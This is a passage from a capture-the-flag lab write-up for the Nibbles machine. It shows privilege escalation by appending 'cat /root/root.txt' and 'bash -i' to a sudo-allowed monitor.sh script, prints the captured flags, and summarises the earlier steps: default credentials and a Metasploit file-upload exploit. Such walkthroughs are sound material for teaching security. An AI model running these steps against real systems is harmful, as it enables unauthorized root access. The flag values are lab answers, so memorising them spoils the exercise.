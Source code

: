 The `nibbler` user could execute `/home/nibbler/personal/stuff/monitor.sh` as root without a password, indicating a privilege escalation opportunity.

### Exploiting monitor.sh

Backed up the original script:

```bash
cp /home/nibbler/personal/stuff/monitor.sh /home/nibbler/personal/stuff/monitor.sh.bak
```

Modified `monitor.sh` to execute a command to read the root flag:

```bash
echo "cat /root/root.txt" >> /home/nibbler/personal/stuff/monitor.sh
```

Ran the script with sudo:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

**Output:**

```
de5e5d6619862a8aa5b9b212314e0cdd
```

The root flag was retrieved.

Alternatively, for a root shell:

```bash
echo "bash -i" >> /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

This provided an interactive root shell.

---

## Summary

| Step                 | Description                                                                                                              |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------ |
| Enumeration          | Nmap revealed SSH (22) and Apache (80). Found Nibbleblog CMS via source code comment.                                    |
| Web Recon            | Gobuster identified `/nibbleblog/` directories. Retrieved `users.xml` and `config.xml` with credentials `admin:nibbles`. |
| Authentication       | Logged into Nibbleblog admin panel with `admin:nibbles`.                                                                 |
| Exploitation         | Used Metasploit’s `nibbleblog_file_upload` to upload a malicious PHP file, gaining an RCE shell as `nibbler`.            |
| User Flag            | Retrieved user flag (`79c03865431abf47b90ef24b9695e148`) from `/home/nibbler/user.txt`.                                  |
| Privilege Escalation | Exploited `sudo` permission on `monitor.sh` (NOPASSWD) by appending a command to read `/root/root.txt`.                  |
| Root Access          | Captured root flag (`de5e5d6619862a8aa5b9b212314e0cdd`) via modified `monitor.sh`.                                       |